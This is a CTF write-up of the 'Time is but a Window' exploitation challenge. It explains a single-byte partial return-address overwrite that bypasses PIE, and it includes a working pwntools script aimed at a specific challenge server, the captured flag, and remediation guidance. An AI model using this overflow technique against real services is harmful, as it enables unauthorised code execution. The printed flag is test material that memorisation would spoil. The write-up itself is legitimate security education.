



# Time is but a Window

| Detail | Value |
|--------|-------|
| **CTF** | Pointer Overflow CTF 2023 |
| **Category** | Exploitation |
| **Difficulty** | Medium |
| **Points** | 200 |
| **Flag** | `poctf{uwsp_71m3_15_4_f4c702}` |
| **Status** | Solved |

---

## 1. Challenge Overview

The challenge description emphasizes simplicity: "Think small, and simple. No fancy ROP chains or shellcode necessary, a single byte should be sufficient." The binary (`exploit3.bin`) runs on a remote server, and we need to redirect execution to a hidden `win` function by overwriting just one byte of the return address.

**Target:** `34.123.210.162:20234`

---

## 2. Binary Analysis

Checking protections:

- **PIE:** Enabled
- **RELRO:** Full
- **Stack canary:** Disabled
- **NX:** Enabled

Key finding: the binary contains a `win` function that spawns a shell. The `win` function and `main` function are adjacent in memory, differing only in the **last byte** of their addresses.

Since PIE is enabled, the base address is randomized, but the relative offset between `main` and `win` stays constant. The last byte of the return address (which points back to `main`'s caller) can be overwritten to redirect to `win` instead.

---

## 3. Exploitation Strategy

1. The program asks for our name with a buffer that allows overflow
2. The buffer is 24 bytes from the saved return address
3. We send 24 bytes of padding followed by `\xcb` (the last byte of `win`'s address)
4. When the function returns, execution jumps to `win` instead of the original return point

This is a **partial overwrite** technique: because PIE randomizes the base but the low byte remains fixed, we only need to change one byte.

---

## 4. Exploit Script

~~~python
# Original solve by a101e-lab, adapted for this writeup
from pwn import *

r = remote('34.123.210.162', 20234)
context(arch='amd64', os='linux', log_level='debug')
r.recvuntil(b"Hello! What's your name?: ")
r.sendline(b'A' * 24 + b'\xcb')
r.interactive()
~~~

After gaining a shell, read the flag:

~~~bash
cat flag.txt
~~~

---

## 5. Attack Path Summary

~~~text
exploit3.bin (PIE enabled, no canary)
    |
Buffer: 24 bytes from return address
    |
Overwrite last byte: \xcb (win function offset)
    |
Function returns to win() -> shell
    |
FLAG: poctf{uwsp_71m3_15_4_f4c702}
~~~

The leetspeak reads: "time is a factor."

---

## 6. Lessons Learned

| # | Finding | Real-World Relevance | Key Takeaway |
|---|---------|---------------------|--------------|
| 1 | Partial return address overwrites bypass PIE | Even with ASLR/PIE, the low 12 bits (page offset) of addresses are not randomized | A single-byte overwrite at the right offset can redirect execution within the same page |
| 2 | Missing stack canary makes overflow trivial | Without a canary, there is no detection of stack corruption before the return | Always enable stack canaries (`-fstack-protector-all`) for all compiled binaries |
| 3 | Adjacent functions in memory are exploitable | When `win` sits next to `main`, the distance is a single byte | Compiler and linker layout can inadvertently create exploitable adjacency; use CFI to limit valid call targets |

---

## MITRE ATT&CK Mapping

| Phase | Tactic | Technique | TTP-ID |
|-------|--------|-----------|--------|
| Initial Access | TA0001 | Exploit Public-Facing Application | T1190 |
| Execution | TA0002 | Exploitation for Client Execution | T1203 |
| Privilege Escalation | TA0004 | Exploitation for Privilege Escalation | T1068 |

> MITRE ATT&CK: https://attack.mitre.org/

---

## Remediation and Containment

### Technical Fixes

1. Enable stack canaries for all builds (`-fstack-protector-all`)
2. Implement Control Flow Integrity (CFI) to restrict valid return targets
3. Use ASLR with high entropy (`/proc/sys/kernel/randomize_va_space = 2`)
4. Remove or obfuscate debug/win functions from production builds
5. Validate input length before writing to stack buffers

### MITRE D3FEND Countermeasures

- **D3-SEA Stack Frame Canary Validation** to detect stack corruption before return (counters T1203)
- **D3-ASLR Address Space Layout Randomization** to increase the entropy of the partial overwrite (counters T1068)

### NIST CSF 2.0

- **Protect (PR.IP-12):** Secure compilation and linking practices are enforced in the build pipeline
- **Detect (DE.CM-4):** Endpoint monitoring detects exploitation attempts targeting memory corruption

### NIST SP 800-53 Rev. 5

- **SI-16: Memory Protection** (enable all available memory protections: canary, ASLR, PIE, NX, CFI)
- **SA-11: Developer Security Testing** (test binaries for missing protections before deployment)

### CWE

- **CWE-121: Stack-based Buffer Overflow** (overflow overwrites return address byte)
- **CWE-693: Protection Mechanism Failure** (missing stack canary allows silent corruption)

---

## References

- Based on solve approach from [a101e-lab](https://github.com/a101e-lab/CTF-Writeups)

---

Thanks guys!! (❍ᴥ❍ʋ)

---

One byte is all it takes when the stars align: no canary, adjacent functions, and a predictable offset. If this minimal exploit taught you something about partial overwrites, keep exploring and share your findings.

- Instagram: https://www.instagram.com/uniaogeek
- LinkedIn: http://linkedin.com/in/mrhenrike
- X: https://x.com/mrhenrike
